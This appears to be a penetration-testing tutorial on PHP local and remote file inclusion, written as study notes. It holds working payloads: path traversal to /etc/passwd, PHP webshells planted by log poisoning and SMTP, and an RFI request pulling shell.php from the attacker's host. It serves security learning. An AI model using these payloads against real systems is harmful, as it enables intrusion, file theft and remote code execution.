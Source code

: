 ```yaml
---
title: File Inclusion
date: 2020-06-29 21:44:39
tags: [oscp, lfi, local file inclusion, rfi, remote file inclusion, web attacks]
---
```


# File Inclusion
## Introduction

File inclusion vulnerabilities are of two types: **Remote File Inclusion (RFI)** and **Local File Inclusion (LFI)**.
**RFI** is said to be present when a web application allows remote users to load and execute a remote file on the server.
**LFI** is said to be present when a web application allows remote users to load any pre-existing file and execute it on the server.

These vulnerabilities are often found in poorly written and/or deployed web applications which loads files or content to display it to the end-user, completely forgetting that *this* input could be modified.

## LFI
### Vulnerabiltiy
What enables an attacker to exploit these vulnerabilities are `include` and `require` statements in the web applications' PHP code. With improper or thereof lack of input validation in place, an attacker could load any file that is present on the system, effectively exploiting a Local File Inclusion vulnerability.

### Vulnerability Analysis
What is going on behind the scenes?

Example: loading a file from a URL parameter - filename 
URL : http://example.com/index.php?filename=helloworld
Code :
``` php
include($_GET['filename'] . '.php');
```
Web servers are dumb. The example code above basically tells the server that "Hey, whatever comes in the `filename` parameter append '.php' to that, fetch it for me, execute it and show it to the user." Very convenient. So if any user were to pass some query to the `filename` parameter, the server will accept it, try to find the file, and show it to you if it exists in the place you asked it to look for, and if it has read permissions over the file.

If you thought "but Karan, wouldn't the above code append '.php' to the query I pass? Wouldn't the server execute it? How will I view the contents of it?", you're abosultely thinking in the right direction. If not, it's ok, you'll get there. I'll cover that in the next section.

### Vulnerability Testing
**When to test**
``` bash
# URL or Post request
?file=x
?page=x.php
# Target both
?lang=en&post=x
```
**Testing**

In PHP below version 5.3, URL ending in `%00`, a null-byte termination, causes the interpreter to accept it as the legit URL termination point and will ignore anything that comes after it like the '.php' extension that normally would be appended in the above example

Use different tricks or payloads. <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File Inclusion">PayloadsAllTheThings</a> is a great resource. When the above trick fails, you can use plenty of others present in PayloadsAllTheThings. (I usually try a `php://` filter next)
``` bash
# Add php at the end
?file=x.<php>

# Fetch a random file - Errors are nice
?file=<random>.php


# Keep the original path there, backtrack from there
?page=files/ninevehNotes/../../../../../../../etc/passwd

# PHP version below 5.3.4 - %00 for filename termination
?page=files/ninevehNotes/../../../../../../../etc/passwd%00

# Full path
?file=C:\Windows\System32\drivers\etc\hosts
```

### LFI To RCE

#### Log Poisoning 

##### Log Locations

First check if logs are accessible
``` bash
# Apache FreeBSD
/var/log/httpd-access.log

# Apache Ubuntu or Debian
/var/log/apache2/access.log

# Apache XAMPP
C:\XAMPP\apache\logs\access.log
```
##### Exploiting 

Method 1: Sending a malicious request but malformed
``` php
# Always use single-quotes in the PHP payload
# Logs use double-quotes almost always
# Connect to target
nc -nv $target [port]

# Send the following request
# Test with system(), exec(), shell_exec()
<?php shell_exec($_REQUEST['cmd']);?>
```

Method 2: Sendind a malicious request but legitimate
``` php
# Capture a request using a proxy (BurpSuite)
# Modify User-Agent HTTP header
# Test with system(), exec(), shell_exec()
User-Agent: <?php shell_exec($_REQUEST['cmd']);?>
```

#### Via SMTP
``` bash
telnet $target 25
# Wait for server to respond
EHLO anyname
VRFY target@victim
mail from:hacker@pwn.com
rcpt to:target@victim
data
Subject: Nothing to look here
<?php echo system($_REQUEST['cmd']);?>
# Enter a blank line
. # Enter a period
# wait for server response, exit
```

### Getting Code Execution
Browse to the payload. Always execute the simplest command first.
``` bash
?file=../../../../../var/mail/target&cmd=id
?page=../../../../../../var/log/apache2/access.log&cmd=id
```

## Vulnerability - RFI

What enables attackers to exploit RFI is not just poorly written application but also poorly configured PHP.
Along with the usage `include` or `require` statements in the web application, the PHP must be configured to allow `filesystem` functions to use URLs to fetch data from.

### Vulnerability Analysis

These insecure configurations options are - `allow_url_fopen` and `allow_url_include`, and both should be set to **On** for RFI to occur. These options can viewed in the *phpinfo* file

What is going on behind the scenes?

Example: loading a file from a URL parameter - filename 
URL : http://example.com/index.php?filename=helloworld
Code :
``` php
include($_GET['filename'] . '.php');
```

The above code tells the server that, "Hey, whatever comes in the `filename` parameter append '.php' to that, fetch it for me, execute it and show it to the user." Pretty much like LFI, except now the query to `filename` parameter doesn't need to be a local file, it can be any file from anywhere. As long as the vulnerable server could connect to it and a file with the queried name is present, it'll fetch it, and execute it. This makes RFI very dangerous. 

### Vulnerability Testing
**When to test**
PHPInfo should show that these parameters are On. If phpinfo file is unavailable and/or cannot be accessed, testing for RFI should still be done.
``` bash
# URL or Post request
?file=x
?page=x.php
# Target both
?lang=en&post=x
```
**Testing**
First test should be if the server actually connects to you or not.
Start a webserver and fetch nothing
``` bash
# First test
?file=http://$your_ip

# Second test
# Create a phpinfo file on the attacking machine and host it
# File contents:    <?php phpinfo();?>
# Check important functions in 'disabled_functions' : system(), exec(), shell_exec(), etc
?file=http://$your_ip/info.php
```
### Getting Code Execution
``` bash
# Webshell
# Contents: <?php shell_exec($_GET['cmd']);?>
?file=http://$your_ip/shell.php&cmd=id
```